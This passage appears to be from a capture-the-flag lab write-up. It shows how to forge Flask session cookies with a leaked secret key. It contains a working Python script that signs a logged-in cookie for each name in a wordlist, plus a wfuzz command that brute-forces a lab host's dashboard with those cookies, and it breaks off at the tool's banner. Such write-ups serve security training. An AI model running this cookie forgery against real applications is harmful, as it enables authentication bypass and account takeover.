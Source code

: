 

Tracing backwards I can find the default salt is "cookie-session". Other
things I know or are just imported at the top of the file. I can use
this to generate a script of my own:



    #!/usr/bin/env python3

    import hashlib
    import sys
    from flask.json.tag import TaggedJSONSerializer
    from itsdangerous import TimestampSigner, URLSafeTimedSerializer

    if len(sys.argv) < 2:
        print(f"{sys.argv[0]} [wordlist]")
        sys.exit()

    with open(sys.argv[1], 'r') as f:
        names = f.readlines()

    for name in names:
        cookie = URLSafeTimedSerializer(
                secret_key='secret123',
                salt='cookie-session',
                serializer=TaggedJSONSerializer(),
                signer=TimestampSigner,
                signer_kwargs={
                    'key_derivation': 'hmac',
                    'digest_method': hashlib.sha1
                    }
                )
        print(cookie.dumps({"logged_in": True, "username": name.strip()}))



This does the entire list in less than a second:



    oxdf@hacky$ time python3 generate_flask_cookies.py /usr/share/seclists/Usernames/Names/names.txt > names_cookies 

    real    0m0.525s
    user    0m0.514s
    sys     0m0.010s



Either way, I'll use `wfuzz` to check each cookie, hiding 302 responses
(redirects back to `/login`):



    oxdf@hacky$ wfuzz -u http://10.10.11.160:5000/dashboard -H "Cookie: session=FUZZ" -w names_cookies --hc 302
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
